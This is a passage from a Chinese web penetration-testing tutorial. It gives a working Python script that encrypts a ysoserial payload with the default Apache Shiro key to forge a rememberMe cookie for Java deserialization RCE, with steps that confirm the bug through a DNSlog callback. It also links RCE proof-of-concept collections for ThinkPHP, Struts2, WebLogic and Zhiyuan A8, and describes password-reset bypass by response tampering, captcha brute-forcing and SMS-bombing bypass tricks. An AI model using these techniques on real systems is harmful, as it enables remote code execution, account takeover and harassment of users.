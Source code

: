 ```
BS = AES.block_size
pad = lambda s: s + (BS - len(s) % BS) * chr(BS - len(s) % BS)

def encrypt(key, text):
    IV = Random.new().read(AES.block_size)
    cipher = AES.new(key, AES.MODE_CBC, IV=IV)
    data = b64encode(IV + cipher.encrypt(pad(text)))
    return data

key= b64decode('2AvVhdsgUs0FSA3SDFAdag==')
print encrypt(key, open('payload.dat','rb').read())
```

使用方法
1：java -jar ysoserial.jar URLDNS "你的ceye.io或者burp的collaborator client功能中">payload.dat
2：运行python脚本，生成cookie
[![img](https://tva1.sinaimg.cn/large/e6c9d24ely1h15ioa8ml5j20or05sac7.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20190906202437-4aae3452-d0a1-1.png)
3：将cookie复制到burp发包,此时DNSlog就会记录，我们可以再次构造进行命令执行，在这不进行深入。
[![img](https://xzfile.aliyuncs.com/media/upload/picture/20190906202511-5ef959fa-d0a1-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190906202511-5ef959fa-d0a1-1.png)

致远A8-getshell： https://www.cnblogs.com/dgjnszf/p/11104594.html
Thinkphp： https://github.com/SkyBlueEternal/thinkphp-RCE-POC-Collection
Struts2: https://github.com/HatBoy/Struts2-Scan
weblogic: https://github.com/rabbitmask/WeblogicScan
以及各大Java反序列化漏洞等等，这里的漏洞都说不完了。

------

### **0x05** 逻辑漏洞

寻找逻辑漏洞，例如忘记密码，任意用户注册

**任意重置密码**
例如
[![img](https://tva1.sinaimg.cn/large/e6c9d24ely1h15iocni6wj20j208wglx.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20190906203316-7ff13316-d0a2-1.png)
此时客户端会发一个验证码包，我们这是随意输入验证码，发包，返回包。
返回包错误的回显为{"status":0}
将返回包的东西换成{"status":1}
即可重置密码
[![img](https://tva1.sinaimg.cn/large/e6c9d24ely1h15ioe9mn6j20h208h3yk.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20190906203605-e4e90640-d0a2-1.png)

乌云示例：http://www.anquan.us/static/bugs/wooyun-2013-039809.html

**任意用户注册**
爆破注册页面的验证码，即可任意用户注册
[![img](https://tva1.sinaimg.cn/large/e6c9d24ely1h15iob7odkj20kl05rglz.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20190906203710-0be7b1ec-d0a3-1.png)
同样，这里的验证码如果为四位数的话，有时候也可能存在可爆破，可进行任意用户重置密码

**短信轰炸**
短信轰炸很常见，一般在发送验证码后抓包，不断repeate即可，如果做了一定防护的话，在添加空格，或者特殊符号，或+86等都可以进行绕过
